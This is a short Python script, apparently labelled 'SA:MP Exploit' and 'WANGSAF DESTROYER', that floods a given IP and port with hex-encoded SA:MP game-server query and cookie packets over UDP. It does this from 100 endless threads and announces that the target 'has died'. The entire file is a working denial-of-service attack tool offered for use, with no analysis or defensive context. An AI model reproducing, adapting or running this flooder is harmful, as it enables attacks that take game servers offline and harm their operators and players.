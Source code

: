 # PDSI
import socket
import struct
import codecs,sys
import threading
import random
import time
import os




ip = sys.argv[1]
port = sys.argv[2]
orgip =ip

Pacotes = [codecs.decode("53414d5090d91d4d611e700a465b00","hex_codec"),#p
                       codecs.decode("53414d509538e1a9611e63","hex_codec"),#c
                       codecs.decode("53414d509538e1a9611e69","hex_codec"),#i
                       codecs.decode("53414d509538e1a9611e72","hex_codec"),#r
                       codecs.decode("081e62da","hex_codec"), #cookie port 7796
                       codecs.decode("081e77da","hex_codec"),#cookie port 7777
                       codecs.decode("081e4dda","hex_codec"),#cookie port 7771
                       codecs.decode("021efd40","hex_codec"),#cookie port 7784
                       codecs.decode("021efd40","hex_codec"),#cookie port 1111 
                       codecs.decode("081e7eda","hex_codec")#cookie port 1111 tambem
                       ]


print("ATTACK TO IP: %s AND PORT: %s WITH WANGSAF DESTROYER"%(orgip,port))







class MyThread(threading.Thread):
     def run(self):
         while True:
                sock = socket.socket(
                    socket.AF_INET, socket.SOCK_DGRAM) # Internet and UDP

                msg = Pacotes[random.randrange(0,3)]

                sock.sendto(msg, (ip, int(port)))


                if(int(port) == 7777):
                    sock.sendto(Pacotes[5], (ip, int(port)))
                elif(int(port) == 7796):
                    sock.sendto(Pacotes[4], (ip, int(port)))
                elif(int(port) == 7771):
                    sock.sendto(Pacotes[6], (ip, int(port)))
                elif(int(port) == 7784):
                    sock.sendto(Pacotes[7], (ip, int(port)))
                elif(int(port) == 1111):
                    sock.sendto(Pacotes[9], (ip, int(port)))    


if __name__ == '__main__':
    try:
     for x in range(100):                                    
            mythread = MyThread()  
            mythread.start()                                  
            time.sleep(.1)    
    except(KeyboardInterrupt):
         os.system('cls' if os.name == 'nt' else 'clear')

         print('#########################################################################')
         print('SA:MP Exploit')
         print('#########################################################################')
         print('\n\n')
         print('Menyerang ip {} telah mati'.format(orgip))
         pass

